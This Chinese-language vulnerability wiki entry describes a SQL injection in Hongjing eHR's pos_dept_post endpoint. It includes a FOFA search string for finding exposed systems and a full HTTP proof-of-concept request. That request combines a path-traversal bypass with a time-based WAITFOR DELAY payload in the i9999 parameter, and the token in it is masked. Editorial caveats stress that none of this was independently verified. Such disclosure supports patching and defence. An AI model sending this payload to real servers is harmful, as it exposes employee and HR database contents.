

# 宏景eHR pos_dept_post i9999 SQL 注入

## 条目说明

- 对象与具体问题：宏景eHR；pos_dept_post i9999 SQLi
- 版本、配置及部署条件：无版本
- 认证与权限前提：文称未认证但含x-auth-token
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 固定token来源/是否必要未说明，不能据此断言无条件未认证
- templates/attestation/../路径绕过应保留与解释
- 仅5秒图无基线；官方已修复无公告/build，在野无引用

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

## 漏洞描述

宏景eHR pos_dept_post 接口处存在SQL注入漏洞，未经过身份认证的远程攻击者可利用此漏洞执行任意SQL指令，从而窃取数据库敏感信息。

影响范围

宏景eHR

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="HJSOFT-HCM"

POC/EXP：

```http
POST /templates/attestation/../../pos/roleinfo/pos_dept_post HTTP/1.1
Host: 127.0.0.1:8881
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
x-auth-token: d******************************b
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

usertable=h00&i9999=1';WAITFOR DELAY '0:0:5'--+
```





## 修复方案

官方已发布修复方法及时联系厂商。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
